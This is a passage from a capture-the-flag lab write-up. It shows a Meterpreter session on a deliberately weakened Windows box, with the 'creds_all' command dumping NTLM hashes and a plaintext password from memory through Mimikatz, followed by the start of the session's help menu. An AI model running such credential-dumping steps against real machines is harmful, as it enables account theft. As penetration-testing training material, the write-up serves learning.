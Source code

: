 creds_all

### Run this command now. What is Dark's password? Mimikatz allows us to steal this password out of memory even without the user 'Dark' logged in as there is a scheduled task that runs the Icecast as the user 'Dark'. It also helps that Windows Defender isn't running on the box ;) (Take a look again at the ps list, this box isn't in the best shape with both the firewall and defender disabled)

```
 meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                        NTLM                       SHA1
--------  ------   --                        ----                       ----
Dark      Dark-PC  e52cac67419a9a22ecb08369  7c4fe5eada682714a036e3937  0d082c4b4f2aeafb67fd0ea56
                   099ed302                  8362bab                    8a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

```

Ans>

Password01!



### Task 6 Post-Exploitation

### Before we start our post-exploitation, let's revisit the help menu one last time in the meterpreter shell. We'll answer the following questions using that menu.

```
meterpreter > help

Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information or control active channels
    close                     Closes a channel
    detach                    Detach the meterpreter session (for http/https)
    disable_unicode_encoding  Disables encoding of unicode strings
    enable_unicode_encoding   Enables encoding of unicode strings
    exit                      Terminate the meterpreter session
    get_timeouts              Get the current session timeout values
```